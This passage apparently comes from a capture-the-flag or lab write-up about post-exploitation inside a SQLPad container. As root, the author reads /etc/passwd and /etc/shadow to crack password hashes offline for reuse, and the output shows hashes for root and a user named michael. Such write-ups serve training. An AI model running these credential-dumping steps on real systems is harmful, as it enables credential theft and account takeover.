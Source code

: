 ```
root@c184118df0a6:/var/lib/sqlpad# ls /home
ls /home/                                                                
michael                                                                  
node                                                                     
root@c184118df0a6:/var/lib/sqlpad#
```

As root we dump /etc/passwd and /etc/shadow to see if we can crack these offline for possible reuse.

```
root@c184118df0a6:/# cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
root@c184118df0a6:/# cat /etc/shadow
```
```
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
root@c184118df0a6:/# 
```
